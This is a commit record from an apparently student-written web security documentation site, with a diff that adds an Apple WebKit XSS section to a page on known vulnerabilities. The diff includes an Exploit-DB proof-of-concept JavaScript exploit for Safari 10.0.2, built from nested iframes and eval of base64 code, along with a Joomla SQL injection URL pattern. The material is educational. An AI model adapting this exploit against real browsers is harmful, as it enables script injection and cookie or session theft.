

Before and after one commit to pvcraven/2017_web_security, a Sphinx documentation site: the page built from source/known_vulnerabilities/known_vulnerabilities.rst, in a window 1280 px wide and 1400 px high, scrolled down 835 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Added XSS section about Apple WebKit

```diff
--- a/source/known_vulnerabilities/known_vulnerabilities.rst
+++ b/source/known_vulnerabilities/known_vulnerabilities.rst
@@ -23,7 +26,8 @@
 Lipton Ice Tea, Lazarex Cancer Foundation, Michael Phelps' Store, and many more
 [JOO]_. Known vulnerabilities with the Joomla! application include:
 
-**SQL Injection**
+**SQL Injection:**
+
 Joomla MSG (My Personal Messages) is a way in which users are able to
 communicate with one another through a website. An exploit was found that
 allowed for an attacker to log in as another user by appending the default
@@ -36,7 +40,8 @@
 	# Reply as someone else
 	http://localhost/[PATH]/index.php?option=com_mymsg&layout=edit&reply_id=[Insert_SQL_Here]
 
-**Insecure File Upload**
+**Insecure File Upload:**
+
 The default Joomla Event Manager (JEM) allows for an authenticated user to
 upload HTML and HTM files as an attachment. If an attacker was to upload the
 files containing malicious Javascript coding, a victim would be able to
@@ -44,7 +49,62 @@
 created. In order to prevent this type of vulnerability, the JEM should
 restrict file uploads to valid files of a certain type.
 
+Apple
+-----
+
+Apple is a large, multibillion-dollar company that offers a variety of
+services. One of these services includes Apple WebKit, a web browser engine
+used by OS X applications including Safari. There are several past
+vulnerabilities found with Apple WebKit, including the following:
+
+**Cross Site Scripting**
+
+Cross Site Scripting (or XSS) is a vulnerability that is usually found within
+web applications. An attacker using XSS can inject their script to a normal
+website, which unknowingly passes the malicious script to the user [XSS]_. The
+script language is usually Javascript due to nearly every website using some
+form of it. The script can then read the information that the user's computer
+transmits to the website, including location and cookies.
+
+Apple's WebKit engine (specifically on Safari 10.0.2) is vulnerable to this
+type of attack. The code attacks the FrameLoader::clear function that clears the
+user's screen. XSS is then injected into the unload event handler with
+Javascript to execute whatever function the attacker desires. The code looks
+similar to this [EDB]_.::
+
+	function main() {
+	    let f = document.body.appendChild(document.createElement("iframe"));
+
+	    let a = f.contentDocument.documentElement.appendChild(document.createElement("iframe"));
+	    a.contentWindow.onunload = () => {
+	        let b = f.contentDocument.documentElement.appendChild(document.createElement("iframe"));
+	        b.contentWindow.onunload = () => {
+	            f.src = "javascript:''";
+
+	            let c = f.contentDocument.documentElement.appendChild(document.createElement("iframe"));
+	            c.contentWindow.onunload = () => {
+	                f.src = "javascript:''";
+
+	                let d = f.contentDocument.appendChild(document.createElement("iframe"));
+	                d.contentWindow.onunload = () => {
+	                    f.src = "javascript:setTimeout(eval(atob('" + btoa("(" +function () {
+	                        alert(document.location);
+	                    } + ")") + "')), 0);";
+	                };
+	            };
+	        };
+	    };
+
+	    f.src = "https://abc.xyz/";
+	}
+
+	main();
+
+
+
 Works Cited
 -----------
 .. [EDB] "Offensive Security’s Exploit Database Archive." <https://www.exploit-db.com/>`_ Exploits Database by Offensive Security. N.p., n.d. Web. 24 Feb. 2017.
 .. [JOO] "Joomla.org." <https://www.joomla.org/>'_ Joomla! N.p., n.d. Web. 24 Feb. 2017.
+.. [AWK] "WebKit." <https://webkit.org/>'_ WebKit. N.p., n.d. Web. 24 Feb. 2017.
+.. [XSS] "What Is Cross-site Scripting and How Can You Fix It?" <https://www.acunetix.com/websitesecurity/cross-site-scripting/>'_ Acunetix. N.p., n.d. Web. 25 Feb. 2017.
```
Also changed, not shown: other parts of source/known_vulnerabilities/known_vulnerabilities.rst (+3 -0 lines), source/known_vulnerabilities/facebook-xssed.png (added).
